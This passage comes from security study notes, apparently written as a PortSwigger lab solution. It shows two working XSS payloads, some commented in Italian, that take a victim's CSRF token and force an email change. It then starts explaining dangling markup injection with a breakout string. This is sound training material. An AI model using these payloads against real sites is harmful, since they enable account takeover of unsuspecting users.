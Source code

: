
- ##### Lab: Exploiting XSS to perform CSRF

```html
<script>  
window.onload = () => {
const csrf = document.getElementsByTagName('form')[0].getElementsByTagName('input')[0].value;

fetch('https://0a5800bf03ee84cb81b68e7a002900d8.web-security-academy.net/my-account/change-email', {
method: 'POST',
body: `csrf=${csrf}&email=foobar@example.com`,
});  
}  
</script>
```

Or:

```html
<script>
var req = new XMLHttpRequest(); // crea una request
req.onload = handleResponse; // gestisce la response
req.open('get','/my-account',true);
req.send();

function handleResponse() {
// prende il valore del token ‘csrf’ della risposta HTTP in questione e lo salva nella variabile token: nota che la risposta viene inviata da chi visualizza la pagina dei commenti
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
// crea una nuova HTTP request
var changeReq = new XMLHttpRequest();

// istanzia la request come POST verso l’endpoint
changeReq.open('post', '/my-account/change-email', true);
// invia la POST request all’endpoint di cui sopra con il token csrf preso prima
changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

## Dangling markup injection

Dangling markup injection is a technique for capturing data cross-domain in situations where a full cross-site scripting attack isn't possible.
Suppose an application embeds attacker-controllable data into its responses in an unsafe way:

```html
<input type="text" name="input" value="CONTROLLABLE DATA HERE">
```

Suppose also that the application does not filter or escape the `>` or `"` characters. An attacker can break out of the quoted attribute value and the enclosing tag:

```html
">
```

